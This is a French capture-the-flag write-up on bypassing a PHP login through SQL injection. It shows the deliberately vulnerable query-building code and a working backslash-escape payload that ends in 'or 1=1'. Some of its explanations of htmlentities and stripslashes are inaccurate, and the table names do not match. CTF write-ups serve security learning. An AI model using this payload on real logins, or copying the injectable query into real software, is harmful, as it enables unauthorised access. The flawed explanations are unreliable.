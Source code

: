 # Web 100 - Super Query Login v2

Une nouvelle épreuve avec une injection SQL, la source du challenge est disponible:
```php
<!DOCTYPE html>
<html>
<head>
<title>SQLi</title>
</head>
<body>
<p>Bypass this auth !<br><a href="?viewsource">source</a></p>
<form action="" method="POST">
Login: <input type="text" name="login"><br>
Passw: <input type="password" name="password"><br>
<input type="submit" value="Connection">
</form>
<?php
if (isset($_POST['login']) && isset($_POST['password'])) {
require('config.php');
$login = stripslashes(htmlentities($_POST['login'], ENT_QUOTES)); **[1]**

$pass = stripslashes(htmlentities($_POST['password'], ENT_QUOTES)); **[2]**


$sql = "SELECT * FROM web1_users WHERE login = '" . $login . "' AND password = '" . $pass . "' ";** [3]**
$result = mysql_query($sql) or die(mysql_error());
if( mysql_num_rows($result) == 1) {
$data = mysql_fetch_array($result);
echo "You can valid with <b>".$data['password']."</b>";
}
else {
echo "<b>Wrong login/password !</b>";
}
}
?>
</body>
</html>```


En [1] et [2] on a la fonction htmlentities($var, ENT_QUOTES) qui échappe les quotes (‘) et les
guillemets (“). 
Si pour le login on soumet 
> ‘or 1=1 #

, le login après avoir été passé dans htmlentities aura
la valeur \’or 1=1 # et notre injection ne fonctionnera pas.

L’idée ici c’est de profiter que l’on peut manipuler les variables $login ET $pass.
On va alors échapper le guillemet de fermeture de $login: \

La requête SQL [3] devient alors:
```sql
SELECT * FROM chall1_users WHERE login = '\' AND password = 'toto'
```
En vert la partie qui sera interprétée comme le login et le reste notre champ d’exploitation.
Cependant la variable $login est aussi passée dans la fonction stripslashes() qui a pour effet d’échapper
les back slashes. 
Il nous suffit d’injecter comme ceci: \ \ ce qui nous donnera:
```sql
SELECT * FROM chall1_users WHERE login = '\\\' AND password = 'toto'
```

L’injection finale pour se connecter est la suivante.

```sql
login=\\ &password= or 1=1 limit 1 -- a-

```
On obtient ensuite le flag : **ese{Htmlentities_bypass}**
